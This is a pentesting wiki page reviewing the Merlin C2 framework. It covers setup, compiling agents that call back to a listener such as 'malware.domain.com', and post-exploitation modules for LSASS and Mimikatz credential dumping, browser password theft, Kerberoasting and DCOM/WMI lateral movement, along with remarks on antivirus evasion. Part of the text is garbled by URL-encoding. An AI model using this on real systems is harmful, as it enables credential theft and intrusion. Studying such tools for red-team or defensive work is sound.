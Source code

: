 ```yaml
---
description: 'https://github.com/Ne0nd0g/merlin'
---
```


# Merlin

## Installation

### Install GO

```text
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```

### Install Merlin

```text
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```

## Launch Merlin Server

```text
go run cmd/merlinserver/main.go -i
```

## Merlin Agents

You can [download precompiled agents](https://github.com/Ne0nd0g/merlin/releases)

### Compile Agents

Go to the main folder _$GOPATH/src/github.com/Ne0nd0g/merlin/_

```text
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```

### **Manual compile agents**

```text
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```

## Modules

**The bad news is that every module used by Merlin is downloaded from the source \(github\) and saved indisk before using it. Forge about usingwell known modules because Windows Defender will catch you!**

**SafetyKatz** --&gt; Modified Mimikatz. Dump LSASS to file and launch:sekurlsa::logonpasswords to that file  
**SharpDump** --&gt; minidump for the process ID specified \(LSASS by default\) \(Itsais that the extension of the final file is .gz but indeed it is.bin, but is agz file\)  
**SharpRoast** --&gt;Kerberoast \(doesn't work\)  
**SeatBelt** --&gt; Local Security Tests in CS \(does not work\) [https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs](https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs)  
**Compiler-CSharp** --&gt; Compile using csc.exe /unsafe  
**Sharp-Up** --&gt;Allchecks in C\# in powerup \(works\)  
**Inveigh** --&gt; PowerShellADIDNS/LLMNR/mDNS/NBNS spoofer and man-in-the-middle tool \(doesn't works, need to load: [https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1\](https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1%29%29%20%20
**Invoke-InternalMonologue**%20-->%20impersonates%20all%20available%20users%20and%20retrieves%20a%20challenge-response%20for%20each%20%28NTLM%20hash%20for%20each%20user%29%20%28bad%20url%29%20%20
**Invoke-PowerThIEf**%20-->%20Steal%20forms%20from%20IExplorer%20or%20make%20it%20execute%20JS%20or%20inject%20a%20DLL%20in%20that%20process%20%28doesnt%20work%29%20%28and%20the%20PS%20looks%20like%20doesnt%20work%20either\) [https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1](https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1)  
**LaZagneForensic** --&gt; Get browser passwords \(works but dont prints the output directory\)  
**dumpCredStore** --&gt; Win32 Credential Manager API \([https://github.com/zetlen/clortho/blob/master/CredMan.ps1\](https://github.com/zetlen/clortho/blob/master/CredMan.ps1%29\) [https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details](https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details)  
**Get-InjectedThread** --&gt; Detect classic injection in running processes \(Classic Injection \(OpenProcess, VirtualAllocEx, WriteProcessMemory, CreateRemoteThread\)\) \(doesnt works\)  
**Get-OSTokenInformation** --&gt; Get Token Info of the running processes and threads \(User, groups, privileges, owner… [https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token\_information\_class\](https://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-_token_information_class%29%29%20%20
**Invoke-DCOM**%20-->%20Execute%20a%20command%20%28inother%20computer\) via DCOM \([http://www.enigma0x3.net.\](http://www.enigma0x3.net.%29\) \([https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/\](https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/%29%29%20%20
**Invoke-DCOMPowerPointPivot**%20-->%20Execute%20a%20command%20in%20othe%20PC%20abusing%20PowerPoint%20COM%20objects%20%28ADDin%29%20%20
**Invoke-ExcelMacroPivot**%20-->%20Execute%20a%20command%20in%20othe%20PC%20abusing%20DCOM%20in%20Excel%20%20
**Find-ComputersWithRemoteAccessPolicies**%20-->%20%28not%20working\) \([https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/\](https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/%29%29%20%20
**Grouper**%20-->%20It%20dumps%20all%20the%20most%20interesting%20parts%20of%20group%20policy%20and%20then%20roots%20around%20in%20them%20for%20exploitable%20stuff.%20%28deprecated%29%20Take%20a%20look%20at%20Grouper2,%20looks%20really%20nice%20%20
**Invoke-WMILM**%20-->%20WMI%20to%20move%20laterally%20%20
**Get-GPPPassword**%20-->%20Look%20for%20groups.xml,%20scheduledtasks.xml,%20services.xmland%20datasources.xml%20and%20returns%20plaintext%20passwords%20%28insidedomain%29%20%20
**Invoke-Mimikatz**%20-->%20Use%20mimikatz%20%28default%20dump%20creds\)  
**PowerUp** --&gt; [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)  
**Find-BadPrivilege** --&gt; Check the privileges of users in computers  
**Find-PotentiallyCrackableAccounts** --&gt; retrieve information about user accounts associated with SPN \(Kerberoasting\)  
**psgetsystem** --&gt; getsystem

**Didn't check persistence modules**

## Resume

I really like the feeling and the potential of the tool.  
I hope the tool will start downloading the modules from the server and integrates some kind of evasion when downloading scripts.

